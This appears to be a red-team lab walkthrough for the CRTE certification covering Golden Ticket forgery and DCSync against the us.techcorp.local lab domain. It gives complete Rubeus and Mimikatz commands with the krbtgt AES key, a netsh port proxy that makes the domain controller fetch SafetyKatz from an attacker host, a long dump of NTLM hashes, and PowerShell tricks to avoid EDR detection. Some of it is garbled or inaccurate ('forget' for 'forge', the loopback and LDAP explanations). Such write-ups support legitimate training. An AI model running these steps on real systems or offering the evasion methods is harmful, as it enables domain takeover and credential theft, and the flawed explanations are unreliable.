

CRTE - Certified Red Team Expert
Domain Persistence - Golden Ticket attack
When we talk about the Golden Ticket attack, we need to understand that it revolves around a very specific vulnerability within the Kerberos authentication protocol, which is widely used in Windows Active Directory environments. The essence of this attack lies in our ability to forge a Ticket Granting Ticket, or TGT, which allows us to impersonate any user within the domain and gain unauthorized access to resources. To truly master this attack, we must first break down its core components and the steps involved in executing it successfully.
First and foremost, we need to comprehend how Kerberos operates because the entire attack hinges on manipulating its ticketing system. In a typical Kerberos setup, when a user logs in, they receive a TGT from the Key Distribution Center, or KDC, which resides on the domain controller. This TGT is encrypted using a secret key derived from the password of the built-in account called KRBTGT. The KRBTGT account is critical because it acts as the backbone for the entire Kerberos infrastructure, and its password hash is used to encrypt all TGTs issued by the KDC. If we can obtain the password hash of the KRBTGT account, we essentially hold the keys to the kingdom.
To achieve this, we must first gain administrative access to the domain controller, which is no small feat. Once we have elevated privileges, we extract the KRBTGT account's password hash using tools like Mimikatz. This hash becomes our golden key because it enables us to create forged TGTs. With the hash in hand, we proceed to craft a Golden Ticket, which is essentially a custom TGT that we generate offline. When creating this ticket, we have full control over its attributes, such as the username, group memberships, and even the validity period. We can set the ticket to last for years, ensuring prolonged access without detection.
When we obtain the KRBTGT account's password hash, whether it’s the NTLM hash or the AES256 key, we are essentially in possession of the cryptographic material that the Key Distribution Center (KDC) uses to encrypt and validate Ticket Granting Tickets (TGTs). This is a critical point because the KDC relies on the KRBTGT hash to ensure the authenticity of TGTs. Normally, when a legitimate user requests a TGT, the KDC generates it, encrypts it with the KRBTGT hash, and sends it back to the user. The user then presents this TGT to the KDC whenever they need access to resources.
However, in the case of a Golden Ticket attack, we bypass the KDC entirely. Once we have the KRBTGT hash, we no longer need to interact with the domain controller or the KDC to create a TGT. Instead, we use tools like Mimikatz to generate a forged TGT directly on our attacking machine. This process happens offline, meaning there is no communication with the KDC or any other part of the Active Directory infrastructure during the creation of the ticket. We essentially replicate the encryption process that the KDC would normally perform, but we do it ourselves using the stolen KRBTGT hash.
The reason this works is that Kerberos doesn’t inherently verify whether a TGT was issued by the KDC or forged elsewhere. As long as the ticket is properly encrypted with the correct KRBTGT hash, the domain controller will accept it as valid. This is why having the KRBTGT hash is so powerful, it allows us to create tickets that appear completely legitimate to the system.
For instance, if we want to act as a domain administrator, we simply specify that user’s name in the ticket and gain their privileges. Since the ticket is encrypted with the legitimate KRBTGT hash, the domain controller will accept it as valid, allowing us unrestricted access. It’s important to note that during this process, we avoid triggering many traditional security mechanisms because the ticket appears genuine to the system.
However, executing a Golden Ticket attack isn’t just about technical prowess, it also requires careful planning and stealth. We must ensure that our activities remain undetected, as generating excessive or anomalous tickets could raise alarms. Monitoring tools and advanced threat detection systems might flag unusual patterns, so we should aim to blend in by mimicking legitimate behavior. Additionally, we must consider the potential consequences of altering the KRBTGT account’s password after the attack, as doing so would invalidate all existing tickets and disrupt normal operations.
Another crucial aspect we cannot overlook is the mitigation strategies employed by defenders. Understanding these helps us refine our techniques and stay one step ahead. For example, organizations often implement strict monitoring of privileged accounts, rotate the KRBTGT password periodically, and enable logging to detect anomalies. By knowing how defenders operate, we can adapt our methods to bypass these countermeasures more effectively.
Finally, while mastering the Golden Ticket attack gives us immense power, we must always remember the ethical implications of our actions. Our goal is to deepen our understanding of offensive security to better protect systems, not to exploit them maliciously. With great knowledge comes great responsibility, and we should use what we learn to strengthen defenses rather than compromise them.
Creating a Golden Ticket involves two main phases
Phase 1: Gathering Necessary Information via LDAP Queries
The first phase of creating a Golden Ticket is all about collecting the critical pieces of information required to forge a valid TGT. This information cannot be obtained from our attacking machine alone, it must be retrieved from the domain controller using LDAP queries. Here’s what we need and how we get it.
Domain SID (Security Identifier)
The Domain SID is a unique identifier for the Active Directory domain. Every user and group within the domain has an associated SID that includes the Domain SID as a prefix. To create a Golden Ticket, we need to know the Domain SID so that we can correctly specify the SIDs of the user and groups we want to impersonate.
To retrieve the Domain SID, we use an LDAP query targeting the domain controller. The query looks for the objectSid attribute of the domain object, which contains the Domain SID. Tools like Rubeus or Mimikatz automate this process, making it easier for us to obtain the necessary information.
AES256 Hash of the KRBTGT Account
As mentioned earlier, the KRBTGT account plays a crucial role in Kerberos authentication. Its password hash is used to encrypt TGTs issued by the KDC. For a Golden Ticket attack, we specifically need the AES256 hash of the KRBTGT account because modern Windows environments prefer AES encryption over older methods like RC4.
To get the AES256 hash, we again use an LDAP query to the domain controller. This time, we target the msDS-KeyVersionNumber and msDS-ManagedPassword attributes of the KRBTGT account. These attributes contain the key version number and the encrypted password blob, respectively. We then decrypt the password blob using the key version number to extract the AES256 hash.
User Information
Depending on the specific requirements of our attack, we may also need additional user information such as the username, user principal name (UPN), and group memberships. This information helps us tailor the Golden Ticket to match the desired user profile accurately.
We gather this information through more LDAP queries, targeting the relevant attributes of the user object in Active Directory. For example, the sAMAccountName attribute gives us the username, while the memberOf attribute lists the groups the user belongs to.
Below we do have our KRBTGT dumped information. we have the Domain SID S-1-5-21-210670787-2521448726-163245708 and the Relative ID 502 and also it’s AES256 hash that we will be using forge the Golden Ticket.
`bash
SAM Username : krbtgt
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration :
Password last change : 7/4/2019 11:49:17 PM
**Object Security ID : S-1-5-21-210670787-2521448726-163245708-502
Object Relative ID : 502**
Credentials:
Hash NTLM: b0975ae49f441adc6b024ad238935af5
ntlm- 0: b0975ae49f441adc6b024ad238935af5
lm - 0: d765cfb668ed3b1f510b8c3861447173
Supplemental Credentials:
Primary:NTLM-Strong-NTOWF
Random Value : 819a7c8674e0302cbeec32f3f7b226c9
Primary:Kerberos-Newer-Keys
Default Salt : US.TECHCORP.LOCALkrbtgt
Default Iterations : 4096
Credentials
aes256_hmac (4096) : 5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5
aes128_hmac (4096) : 1bae2a6639bb33bf720e2d50807bf2c1
des_cbc_md5 (4096) : 923158b519f7a454
ArgSplit.bat`

Our next command will be preparing a forged TGT using the krbtgt AES-256 hash, making it valid for the us.techcorp.local domain, and allowing authentication via LDAP as the administrator account.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /ldap /sid:S-1-5-21-210670787-2521448726-163245708 /domain:us.techcorp.local /user:administrator /printcmd

Here’s a concise explanation of each flag passed in your command for the Golden Ticket attack:
C:\\AD\\Tools\\Loader.exe -Path C:\\AD\\Tools\\Rubeus.exe: This runsRubeus.exe(a tool for Kerberos attacks) usingLoader.exe, likely to bypass security mechanisms like antivirus.args "%Pwn%": Passes additional arguments (golden) to the executed process, possibly a placeholder or specific parameter for the attack./aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5: Specifies the AES-256 key of the KRBTGT account, used to encrypt the Golden Ticket./ldap: Indicates that LDAP (Lightweight Directory Access Protocol) will be used to retrieve domain information./sid:S-1-5-21-210670787-2521448726-163245708: Provides the Security Identifier (SID) of the domain, required to forge the ticket./domain:us.techcorp.local: Specifies the target domain name (us.techcorp.local) for which the Golden Ticket is forged./user:administrator: Sets the username (administrator) for which the Golden Ticket is created, granting admin-level access./printcmd: Prints the generated command or ticket details for verification or further use.
The next step would involve injecting this ticket into our session to gain unauthorized access.
Phase 2: Forging the Ticket Offline
Once we have all the necessary information from the domain controller, we move on to the second phase, actually forging the Golden Ticket.
This step happens entirely offline on our attacking machine, without any further interaction with the KDC.
Crafting the TGT
Using tools like Mimikatz or Rubeus, we input the gathered information, Domain SID, AES256 hash, username, etc. To construct a custom TGT. The tool replicates the encryption process that the KDC would normally perform, using the AES256 hash to encrypt the ticket. We can specify various attributes of the ticket, such as the validity period, group memberships, and even the session key.
The result is a fully formed TGT that appears legitimate to the domain controller. It contains all the necessary cryptographic elements to pass validation checks when presented to the KDC for service ticket requests.
Injecting the Forged Ticket
The final step in this phase is injecting the forged TGT into a session on our attacking machine or another compromised system. This involves replacing the current TGT in memory with our Golden Ticket. Once injected, the operating system will use the Golden Ticket for all subsequent Kerberos operations, effectively granting us the privileges specified in the ticket.
Tools like Rubeus.exe provide commands to inject tickets directly into memory, making this process straightforward. After injection, we can authenticate as the specified user and access resources within the domain without needing to contact the KDC again for that ticket.
Once again we will use Loader.exe and ArgsSplit.bat to encode "golden" argument.
ArgSplit.bat

We must remember to add /ptt at the end of the generated command to inject it in the current process.
/ptt(Pass-the-Ticket): This flag tells Rubeus to inject the forged Golden Ticket directly into the current process's memory. Once injected, the ticket allows the attacker to authenticate as the specified user (administrator) without needing to log in again or write the ticket to disk, which reduces the chances of detection.- Why it matters: After injecting the ticket (
/ptt), the attacker can seamlessly access domain resources (e.g., files, systems) with the privileges of the forged user (in this case,administrator) because the system believes the ticket is legitimate.
Golden Tickets do NOT grant DCSync privileges by default. We must explicitly include replication rights when forging the ticket.
If the ticket is generated using NTLM instead of AES, Kerberos might be restricting access to AES keys. Always use AES keys for persistence.
Ensure that the ticket includes necessary group memberships like Enterprise Admins, Domain Admins, and replication groups (RID 512, 518, 519, 520, 1101).
Each of these SIDs corresponds to a specific Active Directory group, and together they provide full domain control with DCSync privileges:
- 544 → BUILTIN\Administrators
- Grants administrative rights over the local machine (not necessarily domain-wide, but useful for privilege escalation).
- 512 → Domain Admins
- Grants full control over the domain, including adding/removing users and modifying Group Policy.
- 518 → Enterprise Admins
- Provides administrative control over all domains in a forest (not just the current domain).
- Allows managing trust relationships, domain controllers, and forest-wide settings.
- 519 → Schema Admins
- Grants permissions to modify the Active Directory schema, which defines object types and attributes.
- Rarely needed for day-to-day attacks, but useful in some persistence techniques.
- 520 → Group Policy Creator Owners
- Allows modifying and creating Group Policies, which can be used for lateral movement or persistence.
- 513 → Domain Users
- A default group that all users are a part of.
- This is included mainly to mimic a legitimate user's group membership.
- 1101 → Replication Rights (DS-Replication-Get-Changes-All)
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /aes256:5E3D2096ABB01469A3B0350962B0C65CEDBBC611C5EAC6F3EF6FC1FFA58CACD5 /user:administrator /id:500 /pgid:513 /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /pwdlastset:"7/5/2019 12:42:09 AM" /minpassage:1 /logoncount:799 /netbios:US /groups:512,513,518,519,520,544,1101 /dc:US-DC.us.techcorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt

klist

The Golden ticket is injected in the current session, we should be able to access any resource in the domain as administrator. We can check that by trying to access the Domain Controller via winrs for example.
- This is the key privilege needed for a successful DCSync attack.
- Allows extracting NTLM hashes, AES keys, and other credentials from the domain controller by impersonating replication requests.
DCSync Attack
Now that we successfully forget a Golden Ticket and that we do have full access to any service in the domain controller, let go for a DCSync attack.
A DCSync attack is a technique where we abuse replication privileges in Active Directory to request password hashes directly from the domain controller, just like another domain controller would. This is done using tools like Mimikatz or Impacket’s secretsdump.py, leveraging the DS-Replication-Get-Changes-All privilege. Instead of dumping credentials from LSASS on a single compromised machine, we can extract all domain credentials, including NTLM and AES hashes, straight from the domain controller.
Going for a DCSync attack as soon as we compromise the domain is crucial because it allows us to obtain all user and computer hashes, including those for privileged accounts like Domain Admins, Enterprise Admins, and even the krbtgt account. Once we have these, we can perform Pass-the-Hash (PtH), Pass-the-Ticket (PtT), Golden Ticket, and Silver Ticket attacks, ensuring long-term persistence across the domain.
Even after successfully forging a Golden Ticket using the krbtgt hash, running a DCSync attack still holds value. The reason is that a Golden Ticket only gives us persistence based on Kerberos authentication, but it does not provide direct access to other user credentials or their NTLM hashes. With DCSync, we can retrieve the hashes of every account in the domain, including high-value targets like service accounts, the built-in Administrator, and the Domain Admins group. This allows us to execute other attacks, such as Silver Tickets (service-specific persistence), Overpass-the-Hash (combining NTLM and Kerberos), and even offline password cracking.
Additionally, if krbtgt password rotation occurs, our Golden Ticket becomes invalid, forcing us to retrieve the new hash to forge a fresh ticket. With DCSync, we can simply re-extract the krbtgt hash at any time, maintaining our access without re-exploiting the domain.
In short, DCSync is one of the most powerful post-exploitation techniques because it gives us full control over the domain’s credentials. Even if we already have a Golden Ticket, running DCSync ensures we maintain long-term access and adaptability, making it a critical step in any full domain compromise scenario.
DCSync Attack Bypassing MDE/EDR
This DCSync attack should be conducted from the session were we have forget our Golden Ticket attack. We will be doing this DCSync attack not in a conventional way, but we will also do it in a way that we can bypass (IF ANY) any security mechanisms deployed on our targeted domain.
Since we already have a Golden ticket, we do not need to map any driver locally. This will be straightforward, let’s start by copying our Loader.exe into the DC(US-DC).
C:\AD\Tools\Loader.exe \\us-dc\C$\Users\Public\Loader.exe /y

Portforwarding to bypass EDR
To avoid being caught by any defensive mechanism, we can simply create a PortForwarding on the target machine then call SafetyKatz using it’s localhost IP.
C:\Users\Administrator>netsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=192.168.100.163

1. netsh interface portproxy add v4tov4:
netsh interface portproxy: This is the part of thenetshutility that deals with port forwarding. It allows forwarding TCP traffic from one IP/port combination to another.add: Specifies that you're adding a new forwarding rule.v4tov4: Indicates that both the listening and connecting addresses use IPv4.
2. listenport=8080:
- The port on the local machine (target machine) where the service will "listen" for incoming connections.
- In this case, the machine will listen on port
8080.
3. listenaddress=127.0.0.1:
- The IP address on the local machine where the service will listen for connections.
127.0.0.1means it will listen on all network interfaces available on the machine (e.g., public, private, or loopback IPs).
4. connectport=80:
- The port on the remote machine (Out Attacking Machine) to which traffic will be forwarded.
- In this case, port
80(commonly used for HTTP).
5. connectaddress=192.168.100.163:
- The IP address of the remote machine (Our Attacking Machine).
This port forwarding setup redirects traffic received on port 8080 from our compromised machine to port 80 on our attacking macchine (192.168.100.163), which acts as a bridge.
We can check this portforwarding with the following command.
netsh interface portproxy show all

Now we can use our SafetyKatz for the DCSync attack, but just before that, we should remember that we will be using Loader.exe to run SafetyKatz in the memory, so we need to encode our argument (lsadump::lsa) before we pass it when using SafetyKatz.
ArgSplit.bat

We should copy/paste the encoded argument into our session inside the US-DC.
Before we run our next command, we should be sure that we are hosting our SafetyKatz.exe on our attacking machine, I’m using HFS.exe software to host my file, but we could also using python if we have the right module for hosting with python.

C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /patch" "exit"
Hashes
`bash
RID : 000001f4 (500)
User : Administrator
LM :
NTLM : 43b70d2d979805f419e02882997f8f3f
RID : 000001f5 (501)
User : Guest
LM :
NTLM :
RID : 000001f6 (502)
User : krbtgt
LM :
NTLM : b0975ae49f441adc6b024ad238935af5
RID : 00000458 (1112)
User : emptest
LM :
NTLM : 216fa4d07d30bdf282443cf7241abb8b
RID : 0000045a (1114)
User : adconnect
LM :
NTLM : 4e150424ccf419d83ce3a8ad1db7b94a
RID : 0000045b (1115)
User : mgmtadmin
LM :
NTLM : e53153fc2dc8d4c5a5839e46220717e5
RID : 00000460 (1120)
User : helpdeskadmin
LM :
NTLM : 94b4a7961bb45377f6e7951b0d8630be
RID : 00000461 (1121)
User : dbservice
LM :
NTLM : e060fc2798a6cc9d9ac0a3bb9bf5529b
RID : 00000462 (1122)
User : atauser
LM :
NTLM : f7f6ab297d5a4458073b91172f498b70
RID : 00000464 (1124)
User : exchangeadmin
LM :
NTLM : 65c1a880fcf8832d55fdc1d8af76f117
RID : 00000465 (1125)
User : HealthMailbox3bd1057
LM :
NTLM : 036c0c459aa8f94d1959ba50a6ec9bcf
RID : 00000466 (1126)
User : HealthMailboxc8de558
LM :
NTLM : d31ffe1fc923cd0d54d71c0ab07c43d1
RID : 00000467 (1127)
User : HealthMailbox01f72be
LM :
NTLM : bc2bffcbb7d5e3720467a159b5310e34
RID : 00000468 (1128)
User : HealthMailbox128342c
LM :
NTLM : ecde2a64c10bb8212fb4fd3ce719424a
RID : 00000469 (1129)
User : HealthMailboxbb3d25e
LM :
NTLM : ad68b1275df61ab87315deb73ffcc868
RID : 0000046a (1130)
User : HealthMailbox87cf12f
LM :
NTLM : e5b20fff8ef19cc679f5f277b2f20ade
RID : 0000046b (1131)
User : HealthMailboxd517735
LM :
NTLM : b1cfb7e7723a5dd54bbe341311a11896
RID : 0000046c (1132)
User : HealthMailbox86956b9
LM :
NTLM : 8260d867bcff9b2b6ece08f41d673f3c
RID : 0000046d (1133)
User : HealthMailbox307c425
LM :
NTLM : 8ba1ff7e75b6bff3d763a2f45f709afc
RID : 0000046e (1134)
User : HealthMailbox7f97592
LM :
NTLM : c90d29c906daa0dff7a14c7834175ba3
RID : 0000046f (1135)
User : HealthMailboxd933b3c
LM :
NTLM : 517b5ccc5454b6622e79a8326a272d64
RID : 00000470 (1136)
User : exchangemanager
LM :
NTLM : b8a0ea6e3c104472377d082154faa9e4
RID : 00000471 (1137)
User : exchangeuser
LM :
NTLM : 1ef08776e2de6e9d9062ff9c81ff3602
RID : 00000472 (1138)
User : pawadmin
LM :
NTLM : 36ea28bfa97a992b5e85bd22485e8d52
RID : 00000473 (1139)
User : jwilliams
LM :
NTLM : 65c6bbc54888cbe28f05b30402b7c40b
RID : 00000474 (1140)
User : webmaster
LM :
NTLM : 23d6458d06b25e463b9666364fb0b29f
RID : 00000478 (1144)
User : serviceaccount
LM :
NTLM : 58a478135a93ac3bf058a5ea0e8fdb71
RID : 000004f7 (1271)
User : devuser
LM :
NTLM : 539259e25a0361ec4a227dd9894719f6
RID : 00000507 (1287)
User : testda
LM :
NTLM : a9cc782709f6bb95aae7aab798eaabe7
RID : 00000509 (1289)
User : decda
LM :
NTLM : 068a0a7194f8884732e4f5a7cb47e17c
RID : 000011f9 (4601)
User : appsvc
LM :
NTLM : 1d49d390ac01d568f0ee9be82bb74d4c
RID : 0000219a (8602)
User : provisioningsvc
LM :
NTLM : 44dea6608c25a85d578d0c2b6f8355c4
RID : 00004a9e (19102)
User : studentuser151
LM :
NTLM : 70bb857cbe6fcbbca6d8f624890947a8
RID : 00004a9f (19103)
User : studentuser152
LM :
NTLM : 109e8adb78907eb254f8de4e9130cc7b
RID : 00004aa0 (19104)
User : studentuser153
LM :
NTLM : a92cbbf1fc44b2c8d626051d5842079b
RID : 00004aa1 (19105)
User : studentuser154
LM :
NTLM : f3730a642e97a8caabd488ffc2d58896
RID : 00004aa2 (19106)
User : studentuser155
LM :
NTLM : d98126ed0d33154b7413e219fa6b0c8d
RID : 00004aa3 (19107)
User : studentuser156
LM :
NTLM : 60791dce254927feda5fb57d8172cebd
RID : 00004aa4 (19108)
User : studentuser157
LM :
NTLM : 22ec09edde5665e7a88aa695307cbe98
RID : 00004aa5 (19109)
User : studentuser158
LM :
NTLM : bd091cb00c9a2ea8c5a264e9838441f3
RID : 00004aa6 (19110)
User : studentuser159
LM :
NTLM : 99d6e20a918a71cec84f9c325635d4f5
RID : 00004aa7 (19111)
User : studentuser160
LM :
NTLM : aeddf5040ca2b7fe8c953b3e4985a05b
RID : 00004aa8 (19112)
User : studentuser161
LM :
NTLM : 7c2d180577d192db0a0edec6e1852adb
RID : 00004aa9 (19113)
User : studentuser162
LM :
NTLM : 3d0fcfc5586b15187a9f8fdfdc5f0ced
RID : 00004aaa (19114)
User : studentuser163
LM :
NTLM : 14de6696c09aebf992ef948ae3dfbe0e
RID : 00004aab (19115)
User : studentuser164
LM :
NTLM : 08baa6418eccb255dcc657bfa57326af
RID : 00004aac (19116)
User : studentuser165
LM :
NTLM : 85b92812663e9b773b8498c38c492b75
RID : 00004aad (19117)
User : studentuser166
LM :
NTLM : 9ec2649228cde9c900f56f3e55bf3927
RID : 00004aae (19118)
User : studentuser167
LM :
NTLM : bd255acf1dff004d8573b6bbb0baef64
RID : 00004aaf (19119)
User : studentuser168
LM :
NTLM : 4d3c1302095b0f2f547bd8a9c0ce6c21
RID : 00004ab0 (19120)
User : studentuser169
LM :
NTLM : 0d64704c22f101bade6b72acfe846c89
RID : 00004ab1 (19121)
User : studentuser170
LM :
NTLM : 1166504f04923b45edd034eeba83e2ec
RID : 00004ab4 (19124)
User : Support151user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004ab5 (19125)
User : Support152user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004ab6 (19126)
User : Support153user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004ab7 (19127)
User : Support154user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004ab8 (19128)
User : Support155user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004ab9 (19129)
User : Support156user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004aba (19130)
User : Support157user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004abb (19131)
User : Support158user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004abc (19132)
User : Support159user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004abd (19133)
User : Support160user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004abe (19134)
User : Support161user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004abf (19135)
User : Support162user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004ac0 (19136)
User : Support163user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004ac1 (19137)
User : Support164user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004ac2 (19138)
User : Support165user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004ac3 (19139)
User : Support166user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004ac4 (19140)
User : Support167user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004ac5 (19141)
User : Support168user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004ac6 (19142)
User : Support169user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 00004ac7 (19143)
User : Support170user
LM :
NTLM : 3d441b1832bd67688c191c7c63cccbb4
RID : 000003e8 (1000)
User : US-DC$
LM :
NTLM : f4492105cb24a843356945e45402073e
RID : 00000450 (1104)
User : US-EXCHANGE$
LM :
NTLM : 20a0e5d7c56dc75c9d2b4f3ac6c22543
RID : 00000451 (1105)
User : US-MGMT$
LM :
NTLM : fae951131d684b3318f524c535d36fb2
RID : 00000452 (1106)
User : US-HELPDESK$
LM :
NTLM : 76c3848cc2e34ef0a8b5751f7e886b8e
RID : 00000453 (1107)
User : US-MSSQL$
LM :
NTLM : ccda609713cb52b1aa752ee23aaf2fae
RID : 00000454 (1108)
User : US-MAILMGMT$
LM :
NTLM : 6e1c353761fff751539e175a8393a941
RID : 00000455 (1109)
User : US-JUMP$
LM :
NTLM : abff11a76a2fa6de107f0ea8251005c5
RID : 00000456 (1110)
User : US-WEB$
LM :
NTLM : 892ca1e8d4343c652646b59b51779929
RID : 00000457 (1111)
User : US-ADCONNECT$
LM :
NTLM : 093f64d9208f2b546a3b487388b2b34a
RID : 00002199 (8601)
User : jumpone$
LM :
NTLM : 0a02c684cc0fa1744195edd1aec43078
RID : 00004a9d (19101)
User : STUDENT151$
LM :
NTLM : a93c090987e36738cf19f52e538ab71b
RID : 00004ab2 (19122)
User : STUDENT152$
LM :
NTLM : 72d95a97937592f979ec18b8c8413583
RID : 00004ab3 (19123)
User : STUDENT153$
LM :
NTLM : 4454a1429db8b460bfe31e83f49e5b94
RID : 00004ac8 (19144)
User : STUDENT154$
LM :
NTLM : 77bf54663557ecd2b2afd1bd8b0c9d07
RID : 00004ac9 (19145)
User : STUDENT155$
LM :
NTLM : f6736e1895ba6c54d6a41568cfe13e6d
RID : 00004aca (19146)
User : STUDENT156$
LM :
NTLM : d8c9fc1b4984416e3fb2878480707394
RID : 00004acb (19147)
User : STUDENT157$
LM :
NTLM : 091a5fcc512d495c0c7ebc1d43d859a4
RID : 00004acc (19148)
User : STUDENT158$
LM :
NTLM : 0d26e04588ffe6dc5d122a2c28ab4c81
RID : 00004acd (19149)
User : STUDENT159$
LM :
NTLM : 353c3e73e42481da7dceceee791b5fc8
RID : 00004ace (19150)
User : STUDENT160$
LM :
NTLM : b32d76fac9335031dd27de2d6a699d59
RID : 00004acf (19151)
User : STUDENT161$
LM :
NTLM : ef169c4b1c0fe860cb0281f2d273c8d6
RID : 00004ad0 (19152)
User : STUDENT162$
LM :
NTLM : 01dad39a407f2cbbc20943bf14ae2ff4
RID : 00004ad1 (19153)
User : STUDENT163$
LM :
NTLM : a59716019e04da71992ce4f82ea05157
RID : 00004ad2 (19154)
User : STUDENT164$
LM :
NTLM : 3338fd0f337da5633c1f719231dc8f65
RID : 00004ad3 (19155)
User : STUDENT165$
LM :
NTLM : 0dd95e5f200794d24b9325c294dc6d15
RID : 00004ad4 (19156)
User : STUDENT166$
LM :
NTLM : 5cb64e37b073a84f31c9ec732cb63c17
RID : 00004ad5 (19157)
User : STUDENT167$
LM :
NTLM : 0d19ece2748786b45fb4ce34eebff9f2
RID : 00004ad6 (19158)
User : STUDENT168$
LM :
NTLM : 5eabec75ee1b6254267b5748a6232622
RID : 00004ad7 (19159)
User : STUDENT169$
LM :
NTLM : dc2674a0627ddb638af27c6fe68147ac
RID : 00004ad8 (19160)
User : STUDENT170$
LM :
NTLM : e36445023f6d1bba3de45037fdc52c3c
RID : 0000044f (1103)
User : TECHCORP$
LM :
NTLM : 32162789a7cb9d8290ee3376da9d3cef
RID : 00000477 (1143)
User : EU$
LM :
NTLM : ba4a3d2e8333f42b66c241eab431f5aa
`
This way we were able to condut a DCSync Attack bypassing EDR by using our forget Golden Ticket.
Using Invoke-Mimi.ps1and PowerShell Remoting
We can also use Invoke-Mimi from a normal PowerShell session.
`Import-Module Invoke-mimi.ps1Invoke-mimi -Command '"kerberos::golden /user:administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /aes256:5e3d2096abb01469a3b0350962b
0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /groups:512,518,519,520,544,1101 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'  - /user:administrator` → Specifies the user identity for the forged ticket.
/domain:us.techcorp.local→ Defines the target domain./sid:S-1-5-21-210670787-2521448726-163245708→ Uses the correct domain SID./aes256:→ Uses the AES-256 hash for krbtgt authentication./groups:512,518,519,520,544,1101→ Manually sets the privileged groups for the forged ticket./startoffset:0→ Sets the ticket validity start time (immediate use)./endin:600→ Ticket will expire in 600 minutes (10 hours)./renewmax:10080→ Allows ticket renewal up to 7 days./ptt→ Pass-the-Ticket (injects the ticket into the session).
We can see above that we were able to forget our golden ticket using Invoke-Mimi. Let’s now access US-DC our Domain controller using Powershell Remote.
If you're accessing the Domain Controller remotely via PowerShell Remoting, you want to avoid running highly monitored commands like whoami, whoami /priv, or net user, which Microsoft Defender for Endpoint (MDE) and EDR solutions commonly flag as suspicious.
Instead, here are stealthier alternatives to retrieve the same information:
1. Alternative for whoami (Current User)
Instead of:
`powershell
whoami
`
Use:
`powershell
[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
`
or
`powershell
$env:USERNAME
`
✅ Why?
- Avoids spawning a
whoami.exeprocess, which EDR monitors. - Uses built-in PowerShell functionality, which blends in better.
2. Alternative for whoami /priv (User Privileges)
Instead of:
`powershell
whoami /priv
`
Use:
`powershell
(Get-Process -Id $PID).StartInfo.EnvironmentVariables["USERNAME"]
`
or
`powershell
(Get-WmiObject -Class Win32_Process | Where-Object { $_.ProcessId -eq $PID }).GetOwner().User
`
✅ Why?
- Avoids execution of a known suspicious binary.
- Uses WMI or PowerShell to extract privileges stealthily.
3. Alternative for whoami /groups (Group Membership)
Instead of:
`powershell
whoami /groups
`
Use:
`powershell
(New-Object System.Security.Principal.WindowsIdentity($env:USERNAME)).Groups | ForEach-Object { $_.Translate([System.Security.Principal.NTAccount]).Value }
`
or
`powershell
(Get-WmiObject Win32_GroupUser | Where-Object { $_.GroupComponent -match $env:USERNAME }) | Select-Object PartComponent
`
✅ Why?
- Uses .NET and WMI queries, which are less likely to be flagged.
- Avoids
whoami.exe,net group, orgpresult, which MDE monitors.
4. Alternative for whoami /all (Complete User Info)
Instead of:
`powershell
whoami /all
`
Use:
`powershell
[System.Security.Principal.WindowsIdentity]::GetCurrent() | Select-Object -Property Name, User, Groups
`
or
`powershell
$WinIdentity = [System.Security.Principal.WindowsIdentity]::GetCurrent()
$WinIdentity.Name
$WinIdentity.Groups | ForEach-Object { $_.Translate([System.Security.Principal.NTAccount]).Value }
`
✅ Why?
- Provides the same identity, privileges, and groups information as
whoami /all. - No external binary execution, avoiding EDR detections.
5. Alternative for whoami /logonid (Logon Session)
Instead of:
`powershell
whoami /logonid
`
Use:
`powershell
(New-Object System.Security.Principal.WindowsIdentity([System.Security.Principal.WindowsIdentity]::GetCurrent().Name)).Token
`
✅ Why?
- Uses .NET directly, no external process execution.
- Provides the same logon session identifier without triggering detection.
Final Recommendations for Maximum Stealth
- Avoid direct execution of
